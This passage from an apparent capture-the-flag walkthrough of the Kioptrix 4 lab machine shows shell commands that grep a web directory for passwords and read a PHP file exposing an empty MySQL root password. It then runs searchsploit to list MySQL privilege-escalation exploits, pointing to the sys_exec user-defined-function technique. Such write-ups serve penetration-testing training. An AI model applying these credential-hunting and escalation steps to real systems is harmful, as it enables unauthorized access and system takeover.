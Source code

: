 From the above output it was determined that MySQL server is running with administrative privileges.

### Searching for MySQL password:

Next we can attempt to gain access to MySQL database by searching for a script containing mysql password. Often these files are located in web directory on the server.

```bash
robert@Kioptrix4:/$ cd /var/www/

robert@Kioptrix4:/var/www$ grep -rl "password" *
checklogin.php
database.sql
index.php
john/john.php
robert/robert.php

robert@Kioptrix4:/var/www$ cat checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

MySQL credentials were found in checklogin.php file located in /var/www directory.

Vulnerability Identification
----------------------------

### Searchsploit

Using searchsploit to looking for appropriate exploit in exploit-db. It seems like User-Defined Functions is an appropriate vulnerability. User-Defined Functions has one particular function called sys_exec, which lets a user execute system commands from within MySQL.
```bash
root@kali:/opt/LinEnum# searchsploit MySQL Privilege Escalation
--------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                               |  Path
                                                                                             | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------- ----------------------------------------
MySQL (Linux) - Database Privilege Escalation                                                | exploits/linux/local/23077.pl
MySQL / MariaDB / PerconaDB 5.5.51/5.6.32/5.7.14 - Code Execution / Privilege Escalation     | exploits/linux/local/40360.txt
MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'mysql' System User Privilege Escalation / R | exploits/linux/local/40678.c
MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'root' System User Privilege Escalation      | exploits/linux/local/40679.sh
MySQL 3.23.x - 'mysqld' Local Privilege Escalation                                           | exploits/linux/local/22340.txt
MySQL 4.x - CREATE Temporary TABLE Symlink Privilege Escalation                              | exploits/multiple/remote/25211.c
MySQL User-Defined (Linux) (x32/x86_64) - 'sys_exec' Local Privilege Escalation              | exploits/linux/local/46249.py
Oracle MySQL < 5.1.50 - Privilege Escalation                                                 | exploits/multiple/remote/34796.txt
cPanel 10.8.x - 'cpwrap' via MySQLAdmin Privilege Escalation (PHP)                           | exploits/php/webapps/2554.php
```